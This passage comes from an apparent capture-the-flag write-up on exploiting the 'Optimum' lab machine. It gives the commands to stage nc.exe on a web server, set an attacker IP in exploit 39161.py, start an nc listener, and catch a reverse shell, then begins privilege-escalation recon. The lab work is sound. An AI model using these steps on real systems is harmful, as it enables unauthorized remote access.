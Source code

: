 ## Manual Exploitation

=======================================================


For manual exploitation we will use the 39161.py python script listed by searchsploit. First, move it to your local directory so we can have a working copy:

    cp /usr/share/exploitdb/exploits/windows/remote/39161.py 39161.py

![](/images/optimum/26. 39161.png)

Next, gedit the script and let's see what we have:

![](/images/optimum/27. edit.png)

So we need to run a webserver with the nc.exe file in the same directory, and there is also a note stating we may need to run the script multiple times in order to achieve success. On Kali, we have a few pre-compiled nc.exe files. I chose: /usr/share/windows-resources/binaries/nc.exe. We copy this file into our local directory:

    cp /usr/share/windows-resources/binaries/nc.exe nc.exe

Now run python's simple web server:  

    python -m SimpleHTTPServer 80

![](/images/optimum/28. python.png)

Next we have a section of code to modify, adding our attacking machine's IP address and a port to listen on and catch a reverse nc.exe connection:
 
 ![](/images/optimum/29. modify.png)

Set up your nc listener to catch the callback:

    nc -lvnp 443
   
Run the python script in a separate terminal window:

    python 39161.py 10.10.10.8 80

![](/images/optimum/30. exploit.png)

Back in your listener window you should see the connection:

![](/images/optimum/31. nc_connection.png)

We are going to use the output from our systeminfo command and run it through Windows Exploit Suggester and wseng on our Kali linux machine.  

Copy all of the output from “systeminfo” and paste it into a txt file on your Kali linux machine. I call mine the htb machine name.sysinfo so “optimum.sysinfo” in this case:

![](/images/optimum/32. text.png)

Now we can copy this file to our directory with the Windows Exploit Suggester script. Mine is in /opt/scripts/Windows-Exploit-Suggester/
